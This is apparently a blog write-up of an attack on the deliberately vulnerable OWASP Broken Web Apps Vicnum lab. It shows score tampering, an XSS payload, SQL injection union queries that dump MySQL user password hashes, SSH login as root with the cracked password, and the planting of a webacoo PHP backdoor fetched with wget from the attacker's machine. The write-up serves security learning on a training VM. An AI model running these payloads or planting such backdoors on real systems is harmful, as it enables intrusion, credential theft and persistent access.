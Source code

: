 ```yaml
---
layout: post
title: OWASP Broken Web Apps Vicnum - Guessnum
slug: owasp-broken-web-apps-vicnum-guessnum
name: OWASP Broken Web Apps Vicnum - Guessnum
---
```


I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
{% highlight sql %}
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
{% endhighlight %}

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}